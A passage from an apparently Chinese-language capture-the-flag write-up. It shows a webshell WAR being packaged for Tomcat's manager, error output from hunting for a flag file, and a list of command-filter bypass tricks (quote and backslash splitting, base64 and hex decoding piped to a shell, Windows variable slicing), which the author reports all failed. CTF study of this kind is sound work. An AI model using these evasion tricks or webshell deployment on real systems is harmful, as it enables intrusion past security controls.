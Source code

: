 toWar.bat
```bat
jar -cvf ../webshell.war *
```

打包后从tomcat的manager界面访问。

结果：

```
java.io.FileNotFoundException: C:\Users\Administrator\Desktop\flags (Access is denied)
java.io.FileNotFoundException: C:\Users\All Users\Desktop\flags (The system cannot find the file specified)
java.io.FileNotFoundException: C:\Users\Default\Desktop\flags (The system cannot find the file specified)
java.io.FileNotFoundException: C:\Users\Default User\Desktop\flags (The system cannot find the file specified)
java.io.FileNotFoundException: C:\Users\Public\Desktop\flags (The system cannot find the file specified)
```

行算你狠 四个找不到 一个权限失败

#### 4.7 命令执行绕过

既然不让我做type那就想办法绕过？

https://blog.csdn.net/qq_40671478/article/details/107569287

```shell
wh\o\ami	//反斜线绕过
who"a"mi	//双引号绕过
whoa'm'i	//单引号绕过
whoam``i	//反引号绕过
echo d2hvYW1p|base64 -d|sh	  #base64绕过,其中d2hvYW1p是whoami的base64编码
echo d2hvYW1p|base64 -d|bash  #base64绕过,其中d2hvYW1p是whoami的base64编码
`echo d2hvYW1p|base64 -d` //将其base64解码,然后用反引号来执行命令
echo 77686F616D69 | xxd -r -p | bash //hex绕过,其中77686F616D69是whoami的hex编码
```

```shell
set a=who
set b=ami
%a%%b% //正常执行whoami
call %a%%b% //正常执行whoami
```

```shell
set a=whoami
%a:~0% //取出所有字符,所以正常执行命令
%a:~0,6% //从开始切割6个字符,刚好是whoami,所以正常执行
%a:~0,5% //切割后是whoam,不是系统命令,不能执行
```

上述绕过方案在这台机子上全部失败

#### 4.8 开始陷入沮丧
